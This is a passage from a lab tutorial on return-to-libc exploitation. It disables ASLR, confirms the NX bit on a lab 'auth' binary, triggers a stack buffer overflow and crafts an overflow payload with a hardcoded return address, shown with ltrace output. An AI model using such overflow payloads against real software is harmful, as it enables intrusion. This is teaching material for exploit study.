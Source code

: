 We will try to bypass this protection for the `01-tutorial-ret-to-libc/src/auth` binary in the lab archive.
For now, disable ASLR in the a new shell:

```console
setarch $(uname -m) -R /bin/bash
```

Let's take a look at the program headers and confirm that the stack is no longer executable.
We only have read and write (RW) permissions for the stack area.
The auth binary requires the `libssl1.0.0:i386` Debian package to work.
You can find `libssl1.0.0:i386` Debian package [here](https://packages.debian.org/jessie/i386/libssl1.0.0/download).

First, let's check that `NX` bit we mentioned earlier:

```console
$ checksec auth
    [...]
    NX:       NX enabled
    [...]
```

For completeness, lets check that there is indeed a buffer (stack) overflow vulnerability.

```console
python2.7 -c 'print "A" * 1357' | ltrace -i ./auth
```

Check the source file - the buffer length is 1337 bytes.
There should be a base pointer and the `main()`'s return address just before it on the stack.
There is also some alignment involved, but we can easily try a few lengths to get the right position of the return address.
Seems to be 1337 + 16 followed by the return address for this case.
You can, of course, determine the distance between the buffer's start address and the frame's return address exactly using objdump, but we will leave that as an exercise.

We can now jump anywhere.
Unfortunately, we cannot put a shellcode in the buffer and jump into it because the stack is non-executable now.
Lets try it with a few `NOP`s.
Our buffer's address is `0xbfffee63` (see the `gets()` call).

```console
$ python2.7 -c 'print "\x90\x90\x90\x90" + "A" * 1349 + "\x63\xee\xff\xbf"' | ltrace -i ./auth
[0x80484f1] __libc_start_main(0x80486af, 1, 0xbffff454, 0x80486c0, 0x8048730 <unfinished ...>
[0x8048601] malloc(20)                                                                            = 0x0804b008
[0x80485df] puts("Enter password: "Enter password:
)                                                              = 17
[0x80485ea] gets(0xbfffee63, 0x8048601, 0x80486af, 0xb7cdecb0, 0xb7cdecb7)                        = 0xbfffee63
[0x8048652] memset(0x0804b008, '\000', 20)                                                        = 0x0804b008
[0x8048671] SHA1(0xbfffee63, 137, 0x804b008, 4, 0x90000001)                                       = 0x804b008
[0xbfffee63] --- SIGSEGV (Segmentation fault) ---
[0xffffffff] +++ killed by SIGSEGV +++
```

